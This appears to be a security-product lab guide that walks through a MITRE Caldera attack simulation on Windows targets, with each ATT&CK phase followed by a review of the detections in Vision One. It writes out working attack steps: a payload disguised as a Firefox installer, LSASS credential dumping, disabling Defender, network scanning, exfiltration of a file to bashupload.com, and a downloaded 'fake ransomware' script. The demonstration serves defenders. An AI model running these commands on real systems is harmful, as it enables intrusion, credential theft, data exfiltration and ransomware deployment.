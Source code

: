 ```yaml
---
title: "Windows"
chapter: false
weight: 41
pre: "<b>4.1 </b>"
---
```

### ATT&CK Phases
#### Reconnaissance
This step was skipped because we already know the target of our attack (EC2 Instances - Windows Target 1 and Windows Target 2)

---
#### Resource Development
We are using Caldera as one of the tools to help us evaluate how Vision One could help companies to improve their security posture and risk management.

CALDERA™ is a cybersecurity framework developed by MITRE that empowers cyber practitioners to save time, money, and energy through automated security assessments.

<b>Mitre Caldera - Pre-Configuration</b>

Before starting the attack simulation, update the Mitre Caldera Global Configurations. You must replace the IP Address (0.0.0.0) with the Public IP Address you use to access the Mitre Caldera management console.

<b>Instructions:</b>
{{< youtube id="9X5A4A54ZHI" >}}

---
#### Initial Access and Execution
In this step, you will create a malicious payload (Windows Based). Then you will pack it into an executable file (that simulates the Mozilla Firefox Installation) and upload it to filebin.net. 

The output URL will be used to drop this 0-day malware to the target Windows Computer.

Use the website https://ps2exe.azurewebsites.net/ to create the EXE file. Make sure that on top of the Caldera script (Powershell), you also add the following payload (That is used to install Mozilla Firefox). 

<b>Windows Payload - Add the following code on top of the Caldera Payload</b>

Invoke-WebRequest -Uri "https://download.mozilla.org/?product=firefox-51.0.1-SSL&os=win64&lang=en-US" -OutFile c:\firefox.exe;
Start-Process -FilePath c:\firefox.exe -Args "/s" -Verb RunAs -Wait;

<b>After you export the file, upload it to filebin.net and take a note of the output url.</b>

References:

- PS1toEXE - https://ps2exe.azurewebsites.net/
- Online Storage - https://filebin.net/

<b>Instructions:</b>

Note: Download and execute the 0-day malware you created on the Windows Target 1 Instance.

{{< youtube id="Fvo7lh-mYDA" >}}

---
#### Persistence
Using Mitre Caldera, you can deploy additional backdoors that will ensure you can keep accessing the affected computers in the future:

In our case, we can run a remote instruction on the affected Linux computer and deploy a secondary agent (bot).

<b>Instructions:</b>
{{< youtube id="tZk7Xs7n7tE" >}}

---
#### Privilege Escalation
Using Mitre Caldera, you can deploy the Technique "UAC bypass registry (T1548.002)".

<b>Instructions:</b>
{{< youtube id="ehafYxLNmoI" >}}

---
#### Defense Evasion
Using Mitre Caldera, you can deploy the Technique "Disable Windows Defender All (T1562.001) - Disable Windows Defender All".

<b>Instructions:</b>
{{< youtube id="-YbaI1s7v2s" >}}

---
#### Credential Access
Using Mitre Caldera, you can deploy the Technique "Leverage Procdump for lsass memory (T1003.001) - Dump lsass for later use with mimikatz", followed by "PowerShell Invoke MimiKats" and "Powerkatz (Staged)". You may find sensitive information with this technique.

<b>Instructions:</b>
{{< youtube id="gwi4jE8BLUk" >}}

---
#### Discovery
Using Mitre Caldera, you can deploy the Technique "Collect ARP details (T1018)" and "Find System Network Connections (T1049)".

As result of the previous command, you will find active connections on the network 10.0.10.*. With this information, you can execute the following commands to find other active hosts running on the same subnet.

- Invoke-WebRequest -Uri https://raw.githubusercontent.com/BornToBeRoot/PowerShell_IPv4NetworkScanner/main/Scripts/IPv4NetworkScan.ps1 -OutFile C:\Users\Public\IPv4NetworkScan.ps1;
- powershell C:\Users\Public\IPv4NetworkScan.ps1 -IPv4Address 10.0.10.0 -Mask 255.255.255.0 -DisableDNSResolving;
- foreach ($port in 444..3390) {If (($a=Test-NetConnection 10.0.10.12 -Port $port -WarningAction SilentlyContinue).tcpTestSucceeded -eq $true){ "TCP port $port is open!"}}

<b>Instructions:</b>
{{< youtube id="CWmCC_bjaWA" >}}

---
#### Lateral Movement
As a next step of this demo, we are going to do lateral movement and exfiltrate sensitive data from the 10.0.10.12 host.

Using the Potential Links, select the technique "View remote shares (T1135)", and update it with the 10.0.10.12 IP Address.

<b>Instructions:</b>
{{< youtube id="lErMomcmH_0" >}}

---
#### Command & Control
You can skip this phase, the target computer is already being controlled by the attacker/c&c server.

---
#### Collection
Using Mitre Caldera, you can deploy the Technique "Find files (T1005) - Locate files deemed sensitive". Using this technique you can search for sensitive date hosted on the affected computers.

<b>Replace the original directory with c:\confidential, and the content of the folder with *.txt.</b>

After you located the sensitive files, check the content of the file "confidential.txt".

Then using the Manual Command option, select the CMD interpreter, and execute the following command:
- CMD - type c:\confidential\confidential.txt

<b>Instructions:</b>
{{< youtube id="BYGdESV0F7A" >}}

---
#### Exfiltration
Now its time to exfiltrate the sensitive data we found on the confidential directory. 
Use the following powershell commands to exfiltrate the data to the bashupload website.

- Invoke-WebRequest -Uri https://bashupload.com/ -Method Post -ContentType multipart/form-data  -Body c:\confidential\confidential.txt
- Invoke-RestMethod -Uri https://bashupload.com/ -Method Post -InFile c:\confidential\confidential.txt -UseDefaultCredentials

<b>Instructions:</b>
{{< youtube id="TNuvzg40CEE" >}}

---
#### Impact 1 - (Fake) Ransomware
Now its time to encrypt the affected servers (Windows Target 1).
After having the Risk Control Rule in place, you can execute the following commands.

- PS1 - powershell.exe -command Invoke-WebRequest -Uri https://github.com/andrefernandes86/demo-v1-ransomware/raw/main/download.ps1 -OutFile C:\Users\Public\Ransom.ps1;

- PS1 - powershell.exe -command C:\Users\Public\Ransom.ps1;

<b>Instructions:</b>
{{< youtube id="Jisl28z33U4" >}}

---
## Reviewing the Detections 
Review the Vision One Portal (Risk Insights and XDR / Workbenchs and OAT) searching for the evidences of the instructions executed during this demo.

{{< youtube id="7Y8AkK-M2js" >}}
